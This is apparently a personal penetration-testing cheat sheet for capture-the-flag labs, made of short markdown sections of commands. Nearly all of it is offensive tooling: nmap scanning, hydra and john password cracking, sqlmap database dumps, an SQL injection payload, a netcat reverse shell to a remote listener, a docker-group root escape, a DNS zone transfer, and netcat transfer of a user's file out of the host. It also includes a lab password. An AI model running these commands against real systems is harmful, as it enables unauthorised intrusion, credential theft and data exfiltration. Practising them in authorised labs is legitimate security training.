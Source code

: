 ### Nmap
`nmap -sC -sV 10.10.105.34`
`nmap --script vuln ip -vv`
### No ICMP
`nmap -Pn 10.10.105.34`

### Generates hash for /etc/passwd(user should already exist)
`openssl passwd -1`

### for /etc/shadow
`mkpasswd -m sha-512 password`
`snap run john-the-ripper --wordlist=~/rockyou.txt hash`

### John
`/snap/bin/john-the-ripper.gpg2john`
`./zip2john 8702.zip > hash`  
`ssh2john.py id_rsa`

### Awk
`awk 'length($0)==10' rockyou.txt`

### Stegography 
`steghide extract -sf`
`stegcracker cute-alien.jpg ~/rockyou.txt`

### Hydra
`hydra -l <username> -P <path to wordlist> <IP> ssh`
`hydra -l molly -P rockyou.txt 10.10.57.111 http-post-form "/login:username=molly&password=^PASS^:incorrect" -V`

### Reminder
`nikto`

### Wfuzz
`wfuzz -c -z file,dates.list -d "date=FUZZ" -u http://10.10.181.57/site-log.php --hc 404`

`sshpass -p !4u2tryhack ssh username@host.example.com`

### Words on web page
`cewl`  

### Sqlmap
`sqlmap -r req.txt -p blood_group -D blood --dump-all`
`sqlmap -r burp.txt --tamper=space2comment --dump-all --dbms sqlite`

### Stable rev shell
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.3.125 4444 >/tmp/f`

### Stabilize shell
`python3 -c "import pty;pty.spawn('/bin/bash')"`
`export TERM=xterm`
`//CTRL + Z to background`
`stty raw -echo;fg` 

### If docker in groups (may help may not)
`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

### Disclose subdomains(@dns-server)
`dig axfr hipflasks.thm @10.10.113.230`

### Mount samba share under username
`sudo mount -t cifs -o username=ubuntu //10.10.7.87/sambashare /media/samba`

### Simple SQLi
`' OR '1'='1' --`

### SQL list
https://github.com/payloadbox/sql-injection-payload-list.git

### NFS
`showmount --exports 10.10.41.139`
`mount 10.10.41.139:/opt/conf /media/nfs`

### Rsync
`rsync --list-only rsync://rsync-connect@10.10.41.139`

### GPG
`gpg --import key.asc`
`gpg --decrypt file.pgp`

### Samba
`smbclient -NL 10.10.215.0`
`smbclient -N //10.10.215.0/VulnNet-Enterprise-Anonymous`

### Netcat recv and send
`nc -q 1 -l -p 7777 > runme`
`nc -q 1 10.9.3.125 7777 < /home/catlover/runme`

### Openssl & GPG
`openssl aes-256-cbc -pbkdf2 -iter 10000 -e -in message.txt -out encrypted_message`
`openssl aes-256-cbc -pbkdf2 -iter 10000 -d -in encrypted_message -out original_message.txt`

`gpg --symmetric --cipher-algo CIPHER message.txt`
`gpg --output original_message.txt --decrypt message.gpg`

### Subdomains search (i.e. *(www|admin).site.com)
`ffuf -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://FUZZ.site.com -fw 1`

### Upgrade to bash ([READ](https://0xffsec.com/handbook/shells/full-tty/))
`SHELL=/bin/bash script -q /dev/null`

### Listen for ICMP activity
`sudo tcpdump -i eth0 icmp`
